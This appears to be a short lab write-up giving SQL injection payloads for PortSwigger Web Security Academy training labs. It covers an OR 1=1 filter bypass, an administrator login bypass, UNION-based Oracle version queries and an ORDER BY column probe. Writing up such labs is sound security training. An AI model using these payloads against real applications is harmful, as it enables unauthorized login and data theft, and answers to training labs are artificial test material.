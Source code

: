 # SQL injection


 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle

```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Lab4: SQL injection attack, querying the database type and version on MySQL and Microsoft

  ```sh
  order by 2#
  ```
